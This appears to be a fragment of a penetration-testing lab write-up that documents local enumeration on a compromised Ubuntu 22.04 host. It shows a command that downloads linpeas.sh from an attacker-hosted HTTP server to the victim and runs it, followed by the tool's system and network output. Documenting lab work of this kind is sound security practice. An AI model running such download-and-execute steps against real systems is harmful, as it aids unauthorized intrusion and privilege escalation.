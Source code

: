 ```bash
``` 


#### Local enumeration

- Auto enum.
- Setup a python server for exploits and download **linpeas.sh** to victim & run
```bash
wget http://192.168.45.193/linpeas.sh
	--2024-09-13 01:00:28--  http://192.168.45.193/linpeas.sh
	Connecting to 192.168.45.193:80... connected.
	HTTP request sent, awaiting response... 200 OK
	Length: 823059 (804K) [text/x-sh]
	Saving to: ‘linpeas.sh’
	
	linpeas.sh                         100%[===============================================================>] 803.77K  1.10MB/s    in 0.7s    
	
	2024-09-13 01:00:28 (1.10 MB/s) - ‘linpeas.sh’ saved [823059/823059]

chmod +x linpeas.sh

./linpeas.sh
```

##### Results:

```bash
                              ╔════════════════════╗
══════════════════════════════╣ System Information ╠══════════════════════════════                                                         
                              ╚════════════════════╝                                                                                       
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits                                                         
Linux version 5.15.0-50-generic (buildd@lcy02-amd64-086) (gcc (Ubuntu 11.2.0-19ubuntu1) 11.2.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #56-Ubuntu SMP Tue Sep 20 13:23:26 UTC 2022
Distributor ID: Ubuntu
Description:    Ubuntu 22.04.1 LTS
Release:        22.04
Codename:       jammy
```

```bash
                              ╔═════════════════════╗
══════════════════════════════╣ Network Information ╠══════════════════════════════                                                        
                              ╚═════════════════════╝                                                                                      
╔══════════╣ Interfaces
# symbolic names for networks, see networks(5) for more information                                                                        
link-local 169.254.0.0
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
3: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:bf:ae:a2 brd ff:ff:ff:ff:ff:ff
    altname enp11s0
    inet 192.168.181.244/24 brd 192.168.181.255 scope global ens192
       valid_lft forever preferred_lft forever
```
